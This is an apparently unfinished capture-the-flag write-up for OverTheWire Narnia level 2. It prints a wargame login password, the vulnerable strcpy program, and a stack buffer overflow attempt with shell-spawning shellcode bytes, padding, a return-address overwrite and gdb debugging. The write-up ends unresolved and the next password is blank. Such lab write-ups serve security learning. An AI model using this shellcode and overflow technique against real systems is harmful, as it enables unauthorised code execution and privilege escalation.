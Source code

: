 # Level 2 → Level 3

## Solution
```
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
```
Zzb6MIyceT
```
```
cd /narnia ; ls -al
```
```
cat narnia2.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

In the first few seconds I didn't understand what could be done here. But then I remembered [microcorruption](https://github.com/SimchaTeich/Microcorruption)! And in my opinion, shellcode should be implanted here to the top of the stack and overwrite the value back which is 128+4 bytes from the top of the stack (plus 4 because there is an EBP register). Therefore, the order of operations will be as follows:
* Inserting shellcode at the top of the stack
    * The same shellcode from the previous challenge that causes bash to run
* Padding the shellcode so that it is 128+4 bytes in size
* And next to that will come the address to the top of the stack
     * This will overwrite the address back from main
     * Don't forget little endian

Let's get started:
1. shellcode is:
    ```
    SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
    ```

2. padding is: 
    ```
    PADDING=$(perl -e 'print "A"x(128-33+4)')
    ```

3. what is the address of the top of the stack?
    
    #TODO: continue with gdb
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING))
    ```
    ```
    disas main
    ```
    
    ![](0.png)

    Register `eax` contain the address to the shell code.

    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](1.png)

    `0xffffd408` is the pushed `eax` for the `printf`. Actualy this is the address for the shellcode.This is the address we want it to overwrite the original value back. `0xf7c21500` this is the return value **from** the main. Let's overwrite it:
    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\x08\xd4\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](2.png)

    The second address indicates that we managed to hit the right place. But the first address indicates that when we added 4 bytes to the input, for some reason the addresses changed a bit. So we will do everything the same again, but the address of the shellcode will now be `0xffffd3f8`:

    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\xf8\xd3\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](3.png)

    Now let's try to run the program inside the gsb without any break point:

    ```
    exit
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    r
    ```
    
    ![](4.png)

    But still no permissions. Let's now try running outside of gdb:

    ```
    exit
    ```
    ```
    exit
    ```
    ```
    ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    
    ![](5.png)

    This means that outside of gdb it doesn't work, but inside it it does. very strange. I tried to find answers to this, like [here](https://stackoverflow.com/questions/39187195/stack-buffer-overflow-works-on-gdb-doesnt-outsite-it), but nothing helped..<br />
    
    Are the addresses in gdb different from running without gdb?<br />
    Which leaves me with the same question - what is the address of the shellcode?<br />
    Or maybe there is another matter here?





## Password for the next level:
```

```

